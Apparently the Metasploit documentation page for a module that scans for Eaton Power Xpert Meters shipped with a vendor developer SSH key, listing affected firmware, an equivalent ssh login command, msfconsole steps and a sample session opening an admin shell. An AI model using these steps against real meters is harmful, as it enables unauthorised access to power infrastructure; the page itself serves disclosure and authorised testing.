 # Description
  
  The eaton_xpert_backdoor module scans for Eaton Xpert Power meters with a vendor SSH private key used in the device firmware's build process.

## Vulnerable Application

  Eaton is a power management company with a wide range of power management products.
  Power meters sold by Eaton used a firmware build process for many years that left a developer key pair in the default profile.
  Specific models include: Power Xpert Meter 4000/6000/8000

  Software Link: http://www.eaton.com/Eaton/ProductsServices/Electrical/ProductsandServices/PowerQualityandMonitoring/PowerandEnergyMeters/PowerXpertMeter400060008000/index.htm#tabs-2

  Version: Firmware <= 12.x and <= 13.3.x.x and below more versions may be impacted
  Tested on: Firmware 12.1.9.1 and 13.3.2.10
  Similar to running: `ssh -m hmac-sha1 -c aes128-cbc -o KexAlgorithms=diffie-hellman-group1-sha1 -o HostKeyAlgorithms=ssh-rsa  -i ./id_rsa admin@1.1.1.2`

## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/ssh/eaton_xpert_backdoor`
  3. `set RHOSTS 1.1.1.2`
  4. `run -z`
  5. `Vulnerable hosts should present a shell`

## Scenarios

```
msf > use auxiliary/scanner/ssh/eaton_xpert_backdoor
msf auxiliary(scanner/ssh/eaton_xpert_backdoor) > set RHOSTS 1.1.1.2
RHOSTS => 1.1.1.2
msf auxiliary(scanner/ssh/eaton_xpert_backdoor) > run -z

[+] 1.1.1.2:22 - Logged in as admin
[*] Command shell session 1 opened (1.1.1.1:62063 -> 1.1.1.2:22) at 2018-08-31 19:12:21 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
